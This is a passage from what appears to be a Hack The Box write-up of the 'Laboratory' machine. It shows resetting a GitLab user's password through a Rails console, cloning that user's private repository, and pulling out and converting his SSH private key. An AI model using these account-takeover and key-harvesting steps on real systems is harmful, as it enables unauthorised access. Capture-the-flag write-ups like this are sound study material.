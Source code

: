 ```bash
irb(main):004:0> user.save!
Enqueued ActionMailer::DeliveryJob (Job ID: 0f18c1b4-9929-47a5-90d7-ec16a7e6f293) to Sidekiq(mailers) with arguments: "DeviseMailer", "password_change", "deliver_now", #<GlobalID:0x00007fa424ee0668 @uri=#<URI::GID gid://gitlab/User/1>>
=> true
irb(main):005:0> 
```

After changed its password, I was able to login with his account and see other repositories in his shoes, where we found a **SecureDocker** private repo, which called a lot of attention.

![gitlab dexter projects](https://i.imgur.com/sxEzY97.png){: .align-center}

Once we have access to the source code, downloaded its contents and found some interesting information used to build the container and a **SSH key** from dexter under his personal stuff, as mentioned in repo's description.

> CONFIDENTIAL - Secure docker configuration for homeserver. Also some personal stuff, I'll figure that out later.

After cloning it, we were able to see the following information:

```bash
$ git -c http.sslVerify=false clone http://git.laboratory.htb/dexter/securedocker.git  
Cloning into 'securedocker'...
Username for 'https://git.laboratory.htb': dexter
Password for 'https://dexter@git.laboratory.htb': 
warning: redirecting to https://git.laboratory.htb/dexter/securedocker.git/
remote: Enumerating objects: 10, done.
remote: Counting objects: 100% (10/10), done.
remote: Compressing objects: 100% (9/9), done.
remote: Total 10 (delta 0), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (10/10), done.
```

```bash
$ tree -a -I '.git'
.
├── create_gitlab.sh
├── dexter
│   ├── recipe.url
│   ├── .ssh
│   │   ├── authorized_keys
│   │   └── id_rsa
│   └── todo.txt
└── README.md

2 directories, 6 files
```

Just like we did on [Luanne]({% post_url 2021-03-27-htb-luanne %}), we have converted it to an RSA key using the commands below:

```bash
$ chmod 600 id_rsa
$ ssh-keygen -p -m PEM -f ./id_rsa
Key has comment 'root@laboratory'
Enter new passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved with the new passphrase.
```
